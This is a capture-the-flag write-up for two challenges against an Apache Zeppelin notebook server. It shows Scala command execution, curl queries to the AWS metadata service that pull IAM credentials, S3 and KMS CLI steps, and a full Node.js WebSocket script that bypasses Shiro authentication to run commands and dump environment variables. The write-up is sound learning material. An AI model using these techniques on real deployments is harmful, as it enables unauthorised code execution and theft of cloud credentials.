




## LON0x24 Zeppelin Writeup

These challenges introduced a data science notebook tool, [Apache Zeppelin](https://zeppelin.apache.org/), demonstrating how easy it is to exploit if it isn't locked down properly. Overall, this was a fantastic series of challenges that taught us some tricks that are definitely applicable in the real world!

#### Zeppelin (500pts)
```
http://35.177.74.111:44024/
Need to do some data science from home so I opened my notebook server to the world. There are no flags on the machine, so why not?
The container has no added vulnerability.
Enjoy the RCEaaS.
```
I'd never used Apache Zeppelin before, but it was soon obvious from browsing the interface with the default 'anonymous' access that it's basically a tool to perform remote code execution and share the results. It's easy to find amusing [bug reports](https://issues.apache.org/jira/browse/ZEPPELIN-4287) and [tweets](https://twitter.com/j_kaluzny/status/870523090773487616?lang=en) from people who don't seem to realise that running arbitrary code on the platform is its purpose!



When creating a new note on this Zeppelin instance, the selected interpreter was Spark, and there was no option to change it. Googling 'spark interpreter' shows it provides a Scala environment. So our first idea was to stick a Scala reverse shell in there. [Reverse shell cheatsheets](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) didn't have a Scala section, but looking up [how to run system commands in Scala](https://alvinalexander.com/scala/scala-execute-exec-external-system-commands-in-scala), there's a handy but obscure syntax for that&mdash;like everything in Scala:
```scala
import sys.process._
val result = "ls -al" !
```
Where `result` will contain the exit code of the command. More usefully the following will print the output of the command:
```scala
import sys.process._
val result = "ls -al" !!
println(result)
```

Trying `hostname` indicated that the application was in fact running inside a Docker container; there was a lack of useful tools like netcat or telnet installed to grab an easy reverse shell. The challenge creator said at one point that it was hosted on AWS, which we could figure out for ourselves by checking the box's IP was in the eu-west-2 range in AWS [ip-ranges API](https://ip-ranges.amazonaws.com/ip-ranges.json).



Our next step was to query the [AWS instance metadata service](https://www.emergingdefense.com/blog/2019/1/16/abusing-aws-metadata-service) for IAM credentials:

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
s3-read
...
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/s3-read
...
{"Code" : "Success", ... "AccessKeyId" : "********************", "SecretAccessKey" : "****************************************" ... }  
```

Note that a similar technique was used in the [Capital One Hack](https://www.wired.com/story/capital-one-paige-thompson-case-hacking-spree/), although that involved exploiting an SSRF rather than an RCE. [This website](https://application.security/) has a really cool interactive demo.

With these credentials we could now use the [AWS CLI](https://aws.amazon.com/cli/) to start poking around the S3 account:

```bash
lt@debian:~$ export AWS_ACCESS_KEY_ID='********************'
lt@debian:~$ export AWS_SECRET_ACCESS_KEY='****************************************'
lt@debian:~$ aws s3 ls
2019-10-23 00:14:33 bc-ctf
lt@debian:~$ aws s3 ls s3://bc-ctf
                           PRE zeppelin-ctf-flag-here/
2019-10-25 02:23:04      21410 ctf.zip
2019-10-25 02:23:05       3825 hangul-flag.enc
2019-10-25 02:23:08       1323 power.html
2019-10-25 02:23:06        204 small.enc
2019-10-25 02:23:06       1537 wasm.zip
lt@debian:~$ aws s3 cp s3://bc-ctf/ . --recursive
download: s3://bc-ctf/zeppelin-ctf-flag-here/flag-ciphertext.enc to ./flag-ciphertext.enc
download: s3://bc-ctf/zeppelin-ctf-flag-here/grant.txt to ./grant.txt
...
```

`grant.txt` was a JSON file containing a `GrantId` and a `GrantToken`. After some googling around, we found [documentation on AWS KMS](https://docs.aws.amazon.com/kms/latest/developerguide/concepts.html#grant_token) about how this token was supposed to be used to decrypt the ciphertext:

```bash
lt@debian:~$ export GRANT_TOKEN='AQpAM2IyNGRmYjJjMmRjOGY2YTgzZTY3ZGM2YzExNWQxZWYzYjJhMzQ2M2U0NzJkMDRjMTc5YTVmY2Y3NjkwZWZjMSKKAgEBAgB4OyTfssLcj2qD5n3GwRXR7zsqNGPkctBMF5pfz3aQ78EAAADhMIHeBgkqhkiG9w0BBwaggdAwgc0CAQAwgccGCSqGSIb3DQEHATAeBglghkgBZQMEAS4wEQQMn82tVkFWFI5tZBueAgEQgIGZoiJYLUf8DOjlILb-YMabd_yPvgK1_Kp0_87yh9Ii0BLOJ_5DVvLXzhzcH3f4j8Ski12qkpHrosiGGrv4jNgrlfYoUkSlIvjc7CBHoyGTLO0GaZzWyVwA8RQtV1VGO03zGnW4zIg1qWoDXNsluJnS4VRkaWTAmmDvTrICQf3IwFA-xDPuvgppmHpI8wfLorjGz0vkVYJ_MrgHKiAiKZwV6oPWgVVD1VR6bQpdi12QxST4F94mzyBXKR5a2Q'
lt@debian:~$ aws kms decrypt --ciphertext-blob fileb://flag-ciphertext.enc --grant-tokens "$GRANT_TOKEN" --region eu-west-2 --output text --query Plaintext | base64 -d
An error occurred (AccessDeniedException) when calling the Decrypt operation: The ciphertext refers to a customer master key that does not exist, does not exist in this region, or you are not allowed to access.
```

However, we kept getting this error and couldn't work out why. Chatting to the challenge organiser, it turned out that earlier we had accessed a different set of S3 credentials than we were supposed to. Indeed, we were able to use our current credentials to grab `ctf.zip` from the S3 bucket, which contained flags for all challenges! This was promptly fixed by the organiser who firewalled off 169.254.169.254 on the EC2 instances.

The intended solution was to look at the environment variables on the Zeppelin container and find AWS creds there. These creds could then be used with the above command to give the flag:

```bash
lt@debian:~$ aws kms decrypt --ciphertext-blob fileb://flag-ciphertext.enc --grant-tokens "$GRANT_TOKEN" --region eu-west-2 --output text --query Plaintext | base64 -d
flag{beware_expl0ding_h0rse}
```

---
#### Shiro's Hindenburg (6000pts)

```
Make sure you've played around with "Zeppelin" before incrementing the port number and playing with http://35.177.74.111:44025
The only change is that I turned on Shiro-authentication and set non-default passwords, so no more unauthenticated RCE, right?
This is a problem commonly seen on Zeppelin instances deployed in the wild. This time the flag is on the machine.
```

This challenge was worth so many points that if you solved it you would instantly win the CTF, so we assumed it would be difficult, and only attempted it the weekend after.



Enumerating this Zeppelin instance, we were unable to access anything from the homepage, and trying any of the APIs like `/api/notebook` would just redirect us to `/api/login` with a `METHOD_NOT_ALLOWED` status.

Looking at the sample [Shiro configuration file](https://github.com/apache/zeppelin/blob/branch-0.8/conf/shiro.ini.template), it turned out that `/api/version` was an unauthenticated route. We visited that to learn that the webserver was running Zeppelin version 0.8.0, a reasonably old version which we suspected had a login bypass vulnerability. However, after doing some research, we couldn't find any such vulnerability, apart from potentially a class of ysoserial-style [deserialisation exploits](https://issues.apache.org/jira/browse/SHIRO-550) which all seemed to be fixed.

We downloaded Zeppelin 0.8.0, followed the [offical guide for setting up Shiro authentication](https://zeppelin.apache.org/docs/0.6.2/security/shiroauthentication.html), and played around a bit. After carefully reading through the authentication controller, we couldn't find any obvious issues and it seemed that Shiro was doing a fine job of securing the important endpoints.

Our next suspicion was that was some sort of deliberate misconfiguration. Reading the official guide again, what if the challenge creator had setup Shiro properly, but forgotten to "Secure the Websocket channel"? It turns out that Shiro only authenticates the routes, not the WebSockets. And Zeppelin is a modern app where after the initial page load, most further communication is done with WebSockets.

Also, to recap: Zeppelin by default allows anonymous access, and anonymous access essentially gives full remote code execution&mdash;no login required!

To test this theory, we opened the 'Sources' tab of the Chrome Developer Tools, and patched part of the JavaScript. We could see that our browser was periodically sending `PING` messages, so we found the code that was doing that: 

```javascript
o=setInterval(function(){i.sendNewEvent({op:"PING"})},1e4)}),i.sendNewEvent=function(t){return void 0!==e.ticket?(t.principal=e.ticket.principal,t.ticket=e.ticket.ticket,t.roles=e.ticket.roles):(t.principal="",t.ticket="",t.roles="")
```

and replaced it with:

```javascript
o=setInterval(function(){i.sendNewEvent({"op":"LIST_NOTES","principal":"anonymous","ticket":"anonymous","roles":"[]"})},1e4)}),i.sendNewEvent=function(t){return void 0!==e.ticket?(t.principal=e.ticket.principal,t.ticket=e.ticket.ticket,t.roles=e.ticket.roles):(t.principal="anonymous",t.ticket="anonymous",t.roles="")
```

We then followed the steps [described here](https://stackoverflow.com/a/48843321) to make our patch persist. After refresh, bingo! The server responded with a list of notes.

What followed was a lot of wasted time trying to modify the JavaScript and figure out the correct sequence of WebSocket messages that would make `RUN_PARAGRAPH` actually return a result. This was fairly painful, and kept giving an error about interpreter binding.



In the end, it turned out that just using the popular [ws server for Node.js](https://github.com/websockets/ws) was a much better solution. Final exploit:

```javascript
const WebSocket = require('ws');

const ws = new WebSocket('ws://35.177.74.111:44025/ws');

const list = {"op":"LIST_NOTES","principal":"anonymous","ticket":"anonymous","roles":"[]"}
const get = {"op":"GET_NOTE","data":{"id":"2BWJFTXKJ"},"principal":"anonymous","ticket":"anonymous","roles":"[]"}
const run = {"op":"RUN_PARAGRAPH","data":{"id":"20150424-154226_261270952","title":"Hello R","paragraph":"import sys.process._\nval result = \"env\" !!\nprintln(result)","config":{"colWidth":12,"editorMode":"ace/mode/r","enabled":true,"title":true,"results":[{"graph":{"mode":"table","height":84.64583587646484,"optionOpen":false,"keys":[],"values":[],"groups":[],"scatter":{}}}],"editorSetting":{"language":"r","editOnDblClick":false},"fontSize":9},"params":{}},"principal":"anonymous","ticket":"anonymous","roles":"[]"}

ws.on('open', function open() {
  ws.send(JSON.stringify(list));
  ws.send(JSON.stringify(get));
  ws.send(JSON.stringify(run));
});

ws.on('message', function incoming(data) {
  console.log(data);
});
```
Gives a whole bunch of output which contains:
```
SHIRO_FLAG=flag{syllabifying_oblate_misrepresentations}
```
